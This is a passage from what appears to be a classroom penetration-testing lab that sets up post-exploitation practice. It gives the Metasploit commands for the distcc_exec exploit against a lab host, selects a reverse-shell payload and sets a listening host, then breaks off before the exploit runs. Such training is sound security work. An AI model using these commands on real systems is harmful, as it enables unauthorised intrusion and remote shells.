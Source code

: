 In the next activity, you will attempt to find a way to escalate your privileges from the **daemon** user to a higher privileged user.
- First, we need to be at the same starting point on the remote machine, so we'll complete a setup activity together as a class. 

#### Post Exploitation Activity Setup

We will first set up a low-privileged shell using Metasploit, which you will then use for post-exploitation and privilege-escalation techniques. 

1. In Metasploit, search for `distcc`, and select it. 

   - `search distcc`. 
   
   - `use 0` or `use exploit/unix/misc/distcc_exec`.

   ![A screenshot depicts the results of the commands.](images/searchdistcc.PNG)

   -  `distcc` is a tool for compiling code. It runs as a daemon with low permissions, and this version is vulnerable. 

2. List the options of the module, and note that we need to set RHOSTS again as it is a required option.

   - `set RHOSTS 172.22.117.150`

3. Before running the module, we need to set a payload. List the available payloads.

   - `show payloads`
   
   - Note the **Description** column, as it shows in parentheses how the payload is communicating.

4. Select the **reverse** payload. Be sure NOT to select **reverse_bash**, or the exploit will not work.

   - `set PAYLOAD cmd/unix/reverse`
   
   - Note that we are now using the PAYLOAD with our EXPLOIT!

5. List options again, and note that there's a new blank setting, LHOST. This is our "listening host," which is the host that listens for the payload communication. In this case, our LHOST is the machine that we're currently operating on. Use `ifconfig` to show your IP (eth0) and set LHOST to that IP.

   - `set LHOST 172.22.117.100`
